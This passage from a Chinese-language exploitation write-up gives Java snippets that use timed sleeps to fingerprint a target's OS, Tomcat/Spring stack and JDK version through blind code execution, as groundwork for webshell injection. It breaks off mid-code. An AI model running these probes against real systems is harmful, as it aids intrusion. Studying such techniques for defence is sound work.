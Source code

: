 ### 0x04 漏洞利用

**2、收集目标信息**

> 获取目标操作系统、中间件、框架、JDK版本信息

1）探测操作系统

探测原因
- 文件操作的前提
  - 写 /tmp/ 目录还是其他目录
```java
String osName = System.getProperty("os.name").toLowerCase();
if (osName.contains("nix") || osName.contains("nux") || osName.contains("mac")) {
    Thread.sleep(3000);
} else if (osName.contains("win")) {
    Thread.sleep(6000);
} else {
    Thread.sleep(9000);
}
```
通过以上代码判断目标为 linux 

2）探测中间件和框架

探测原因
- 内存马注入的前提
- payload分离，从request parameter 和 header 获取参数的前提

```java
Map<Thread, StackTraceElement[]> stackTraces = Thread.getAllStackTraces();
for (Map.Entry<Thread, StackTraceElement[]> entry : stackTraces.entrySet()) {
    StackTraceElement[] stackTraceElements = entry.getValue();
    for (StackTraceElement element : stackTraceElements) {
        // element.getClassName().contains("org.springframework.web"
        if (element.getClassName().contains("org.apache.catalina.core")) {
            Thread.sleep(5000);
            return;
        }
    }
}
```

通过堆栈的方式+类名推断目标为 tomcat + springmvc（大概率为springboot）

3）探测 jdk 版本

探测原因
- 低版本 jdk 缺少部分特性，如果构造的 payload 兼容性不够好（语法不支持），会导致误报，影响判断
- 越高的 jdk 就越多的特性，这会让缩短 payload 长度变得更容易

```java
// 获取 Java 版本
String javaVersion = System.getProperty("java.version");
// 解析主版本号
int majorVersion = Integer.parseInt(javaVersion.split("\\.")[1]);
// 进行版本判断
switch (majorVersion) {
    case 5:
        Thread.sleep(1000);
        break;
    case 6:
        Thread.sleep(2000);
        break;
    case 7:
        Thread.sleep(3000);
        break;
    case 8:
        Thread.sleep(4000);
```